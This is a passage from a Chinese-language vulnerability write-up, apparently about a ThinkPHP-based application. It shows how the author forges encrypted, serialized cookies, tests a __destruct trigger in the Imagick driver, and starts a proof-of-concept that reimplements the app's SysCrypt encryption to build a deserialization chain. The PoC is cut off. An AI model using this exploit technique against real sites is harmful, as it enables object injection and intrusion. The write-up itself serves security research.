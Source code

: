 ```
$value = $sc-&gt;php_encrypt($value);
return $value;
`}`

$a = set_cookie('luoke','');
echo $a.'&lt;br&gt;';
echo get_cookie($a,'');
```

得到加密序列化字符串

[![](https://p5.ssl.qhimg.com/t01b3c2e6735f2762fe.png)](https://p5.ssl.qhimg.com/t01b3c2e6735f2762fe.png)

放到cookie里试一下

[![](https://p0.ssl.qhimg.com/t01a3cf7505489c52a7.png)](https://p0.ssl.qhimg.com/t01a3cf7505489c52a7.png)

完美，接下来就是需要找到反序列化链，我们先随便找个__destruct(修改源码，加个var_dump(1)，看能否触发。

/Include/Library/Think/Image/Driver/Imagick.class.php

```
public function __destruct() `{`
var_dump(1);
empty($this-&gt;img) || $this-&gt;img-&gt;destroy();
`}`
写好POC

&lt;?php
namespace Think\Image\Driver;
class Imagick`{`
`}`

namespace Common\Lib;
class SysCrypt `{`

private $crypt_key;
public function __construct($crypt_key) `{`
$this -&gt; crypt_key = $crypt_key;
`}`
public function php_encrypt($txt) `{`
srand((double)microtime() * 1000000);
$encrypt_key = md5(rand(0,32000));
$ctr = 0;
$tmp = '';
for($i = 0;$i&lt;strlen($txt);$i++) `{`
$ctr = $ctr == strlen($encrypt_key) ? 0 : $ctr;
$tmp .= $encrypt_key[$ctr].($txt[$i]^$encrypt_key[$ctr++]);
`}`
return base64_encode(self::__key($tmp,$this -&gt; crypt_key));
`}`

public function php_decrypt($txt) `{`
$txt = self::__key(base64_decode($txt),$this -&gt; crypt_key);
$tmp = '';
for($i = 0;$i &lt; strlen($txt); $i++) `{`
$md5 = $txt[$i];
$tmp .= $txt[++$i] ^ $md5;
`}`
return $tmp;
`}`

private function __key($txt,$encrypt_key) `{`
$encrypt_key = md5($encrypt_key);
```